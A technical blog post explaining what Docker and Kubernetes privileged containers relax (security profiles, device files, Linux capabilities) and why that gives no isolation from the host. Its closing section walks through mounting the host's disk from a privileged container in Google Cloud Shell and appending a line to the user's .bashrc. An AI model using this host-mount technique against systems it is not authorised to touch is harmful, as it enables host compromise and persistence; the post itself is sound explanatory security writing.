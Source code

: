 +++
title = "Privileged containers aren't containers"
date = "2019-09-23"
+++

## Disabling security features

Applications that interact with host systems such as network plugins or storage drivers can have issues when run in a container, requesting access that’s been restricted by the kernel. For these cases, container runtimes have an out to disable these security features and let the process access the host. In Kubernetes this is achieved with the “privileged” security context field:

```
containers:
  - name: flannel
    image: quay.io/coreos/flannel:v0.11.0-amd64
    command:
    - "/opt/bin/flanneld"
    - "--ip-masq"
    - "--kube-subnet-mgr"
    - "--iface=$(POD_IP)"
    env:
      - name: POD_IP
        valueFrom:
          fieldRef:
            fieldPath: status.podIP
    securityContext:
      privileged: true
```

“privileged” doesn’t correspond to a single Linux primitive. Originally, this was just whatever Docker’s “--privileged” flag implemented. While the container still runs in its own [Linux namespaces and root filesystems](../containers-from-scratch), many security restrictions are relaxed.

For example, privileged containers don’t run with a SELinux or AppArmor context:

```
$ docker run --rm alpine:latest cat /proc/self/attr/current
docker-default (enforce)
$ docker run --privileged --rm alpine:latest cat /proc/self/attr/current
unconfined
```

The container is also provisioned with extensive access to the host. Normally containers are only given the bare-minimum device files to operate, such as stdout, stderr, stdin, /dev/null, etc.

```
$ docker run -it --rm alpine:latest ls /dev
console  fd       mqueue   ptmx     random   stderr   stdout   urandom
core     full     null     pts      shm      stdin    tty      zero
```

Privileged containers are mounted with all device files:

```
$ docker run -it --privileged --rm alpine:latest ls /dev
autofs              mapper              sda5
bsg                 md0                 sda6
console             memory_bandwidth    sda7
core                mqueue              sda8
cpu                 net                 sda9
cpu_dma_latency     network_latency     shm
dm-0                network_throughput  stderr
fd                  null                stdin
full                nvram               stdout
fuse                port                tpm0
hpet                ppp                 tpmrm0
hwrng               ptmx                tty
input               pts                 ttyS0
kmsg                random              ttyS1
loop-control        rtc0                ttyS2
loop0               sda                 ttyS3
loop1               sda1                uinput
loop2               sda10               urandom
loop3               sda11               vsock
loop4               sda12               zero
loop5               sda2                zram0
loop6               sda3
loop7               sda4
```

What makes a privileged container truly dangerous are the [Linux capabilities][capabilities] granted to it. Capabilities are the set of powers that compose “root” such as listening on lower ports, killing other processes, or changing file ownership. In a regular container, processes are severely restricted:

```
$ docker run --rm alpine:latest /bin/sh -c 'apk update && apk add libcap && capsh --print'
# ...
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

A privileged container has all capabilities:

```
$ docker run --privileged --rm alpine:latest /bin/sh -c 'apk update && apk add libcap && capsh --print'
# ...
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

CAP_SYS_ADMIN, the catch-all for privileged administrative actions, is the [poster child][cap-sys-admin] for dangerous capabilities. This flag lets a process set disk quotas, mount file systems, exceed the number of max open files, manipulate namespaces (the list goes on).

## Breaking out

Let’s put this together and break out of a privileged container. To demonstrate, we’ll run a privileged container in [Google’s Cloud Shell][cloud-shell] and gain access to the host’s filesystem.

In cloud environments, data is encrypted at rest but often exposed to the VM as an unencrypted filesystem (it’d be a pain if you had to manually enter a decryption password every time a VM booted). For Cloud Shell, the /home directory is exposed by /dev/sdb1, an attached device that persists between reboots and re-images.

Within a privileged container, a process can generate a device node for that block device, mount it into the container, and modify the user’s ~/.bashrc: 

```
$ docker run --privileged -it --rm alpine:latest
/ # apk update && apk add util-linux
# ...
/ # lsblk
NAME      MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda         8:0    0   45G  0 disk
├─sda1      8:1    0 40.9G  0 part /etc/hosts
├─sda2      8:2    0   16M  0 part
├─sda3      8:3    0    2G  0 part
│ └─vroot 253:0    0  1.2G  1 dm
├─sda4      8:4    0   16M  0 part
├─sda5      8:5    0    2G  0 part
├─sda6      8:6    0  512B  0 part
├─sda7      8:7    0  512B  0 part
├─sda8      8:8    0   16M  0 part
├─sda9      8:9    0  512B  0 part
├─sda10     8:10   0  512B  0 part
├─sda11     8:11   0    8M  0 part
└─sda12     8:12   0   32M  0 part
sdb         8:16   0    5G  0 disk
└─sdb1      8:17   0    5G  0 part
zram0     252:0    0  768M  0 disk [SWAP]
/ # mknod /dev/sdb1 block 8 17
/ # mkdir /mnt/host_home
/ # mount /dev/sdb1 /mnt/host_home
/ # echo 'echo "Hello from container land!" 2>&1' >> /mnt/host_home/eric_chiang_m/.bashrc
```

Logging back into the host, you’d be greeted with a fun message:


```
Welcome to Cloud Shell! Type "help" to get started.
To set your Cloud Platform project in this session use “gcloud config set project [PROJECT_ID]”
Hello from container land!
eric_chiang_m@cloudshell:~$
```


It’s important to remember that this isn’t a container escape, it’s working as intended. Privileged containers offer no security separation between the container and the host.

So take care when enabling this feature. Your container might not be a container.

[cap-sys-admin]: https://lwn.net/Articles/486306/
[capabilities]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[cloud-shell]: https://cloud.google.com/shell/

